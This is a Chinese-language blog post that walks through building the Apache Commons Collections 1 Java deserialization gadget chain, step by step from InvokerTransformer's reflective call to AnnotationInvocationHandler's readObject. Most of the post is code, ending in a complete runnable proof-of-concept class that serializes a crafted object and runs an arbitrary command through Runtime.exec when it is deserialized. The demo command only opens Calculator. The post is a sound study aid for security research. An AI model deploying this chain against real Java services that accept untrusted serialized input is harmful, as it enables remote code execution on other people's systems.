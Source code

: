 # CommonsCollections1链详解


# CommonsCollections1链详解
jdk8源码下载
https://hg.openjdk.org/jdk8u/jdk8u/jdk/rev/af660750b2f4
**漏洞触发点在**`org.apache.commons.collections.functors.InvokerTransformer`
其中的`transform()`方法

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142003386.png)

很明显的一个反射调用，其中`iMethodName、iParamTypes、iArgs`都是可控的变量，便可以调用任意方法和任意参数
看一下构造器是如何赋值的

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142005500.png)

构造一个简单的 payload 试试
`new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;}).transform(Runtime.getRuntime());`
``

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142007538.png)

找一个任意类调用`transforms()`方法的方法，这里选择`org.apache.commons.collections.map.TransformedMap`类的`checkSetValue()`方法

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142009339.png)


![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142010479.png)

`valueTransformer`变量可控

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142011147.png)

但是因为构造器是`protected`修饰，所以无法直接调用，利用这里的静态方法`decorate()`进行了调用

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142012194.png)

再查看一下哪里调用了`checkSetValue()`方法，只有这一处

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142022694.png)

`setValue()`方法调用了`checkSetValue()`，构造一个`payload`，看看能不能通
```java
Runtime r = Runtime.getRuntime();  
InvokerTransformer invokerTransformer = new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;});  
HashMap&lt;Object,Object&gt; map = new HashMap&lt;&gt;();  
map.put(&#34;key&#34;,&#34;value&#34;);  
Map&lt;Object,Object&gt; transformedMap = TransformedMap.decorate(map,null,invokerTransformer);  
  
for(Map.Entry entry:transformedMap.entrySet()){  
    entry.setValue(r);
```

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142036218.png)

接着找一个`setValue()`方法的调用，在`sun.reflect.annotation.AnnotationInvocationHandler`类中，找到了如下方法

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142044567.png)

这里调用了`setValue()`方法，并且还在`readObject()`方法中，继续构造`poc`
```java
Runtime r = Runtime.getRuntime();  
InvokerTransformer invokerTransformer = new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;});  
HashMap&lt;Object,Object&gt; map = new HashMap&lt;&gt;();  
map.put(&#34;key&#34;,&#34;value&#34;);  
Map&lt;Object,Object&gt; transformedMap = TransformedMap.decorate(map,null,invokerTransformer);  
  
Class c = Class.forName(&#34;sun.reflect.annotation.AnnotationInvocationHandler&#34;);  
Constructor annotationInvocationhandleconstructor = c.getDeclaredConstructor(Class.class,Map.class);  
annotationInvocationhandleconstructor.setAccessible(true);  
Object o = annotationInvocationhandleconstructor.newInstance(Target.class,transformedMap);
```
但是这里存在两个问题
第一个问题是`Runtime`没有实现`Seriablable`接口，无法参与序列化过程
利用反射来解决，这里再利用一个`ChainedTransformer.transform`方法

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142055839.png)

简单来说就是上一个执行`transform`方法返回的结果作为下一个执行`transform`方法输入
```java
Transformer[] transformers = new Transformer[]{  
        new InvokerTransformer(&#34;getMethod&#34;,new Class[]{String.class,Class[].class},new Object[]{&#34;getRuntime&#34;,null}),  
        new InvokerTransformer(&#34;invoke&#34;,new Class[]{Object.class,Object[].class},new Object[]{null,null}),  
        new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})  
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
```
还有一个问题，无法控制`setValue()`里面的参数值

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142058315.png)

这里利用`org.apache.commons.collections.functors.ConstantTransformer`的`transform()`方法，无论传入什么，都会返回固定的值

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142059785.png)

所以完善一下上面的`poc`
```java
Transformer[] transformers = new Transformer[]{
		new ConstantTransformer(Runtime.class),
        new InvokerTransformer(&#34;getMethod&#34;,new Class[]{String.class,Class[].class},new Object[]{&#34;getRuntime&#34;,null}),  
        new InvokerTransformer(&#34;invoke&#34;,new Class[]{Object.class,Object[].class},new Object[]{null,null}),  
        new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})  
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
```
于是完整的`poc`如下
```java
package org.example.CommonsCollections;  
  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.TransformedMap;  
  
import java.io.*;  
import java.lang.annotation.Target;  
import java.lang.reflect.Constructor;  
import java.util.HashMap;  
import java.util.Map;  
  
public class CommonsCollection1 {  
    public static void main(String[] args) throws Exception{  
  
        Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(Runtime.class),  
                new InvokerTransformer(&#34;getMethod&#34;,new Class[]{String.class,Class[].class},new Object[]{&#34;getRuntime&#34;,null}),  
                new InvokerTransformer(&#34;invoke&#34;,new Class[]{Object.class,Object[].class},new Object[]{null,null}),  
                new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})  
        };  
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
        chainedTransformer.transform(Runtime.class);  
        InvokerTransformer invokerTransformer =new  InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;});  
        HashMap&lt;Object, Object&gt; map = new HashMap&lt;&gt;();  
        map.put(&#34;value&#34;,&#34;value&#34;);  
        Map&lt;Object,Object&gt; transformedMap = TransformedMap.decorate(map,null,chainedTransformer); 
        Class c = Class.forName(&#34;sun.reflect.annotation.AnnotationInvocationHandler&#34;);  
        Constructor AnnotationInvocationHandlerConstructor = c.getDeclaredConstructor(Class.class,Map.class);  
        AnnotationInvocationHandlerConstructor.setAccessible(true);  
        Object o = AnnotationInvocationHandlerConstructor.newInstance(Target.class,transformedMap);  
        serialize(o);  
        unserialize(&#34;ser.bin&#34;);  
  
    }  
  
    public static void serialize(Object obj) throws Exception{  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(&#34;ser.bin&#34;));  
        oos.writeObject(obj);  
    }  
  
    public static Object unserialize(String filename) throws Exception{  
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));  
        Object obj = ois.readObject();  
        return obj;  
  
    }  
}
```

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142111136.png)

### 注
这里为什么要用`Target`
`Object o = AnnotationInvocationHandlerConstructor.newInstance(Target.class,transformedMap);`
因为`Target`中有值是`value`

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142103316.png)

这里的`getKey()`获取的就是，上面`map.put()`放入的`key`值

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142108071.png)

`map.put(&#34;value&#34;,&#34;value&#34;);`
`key`放入`value`，正好能取出`Target`中的值，所以就绕过了`if`条件



---

> Author: [N1Rvana](https://nlrvana.github.io)  
> URL: https://nlrvana.github.io/posts/ca4c9c3/  

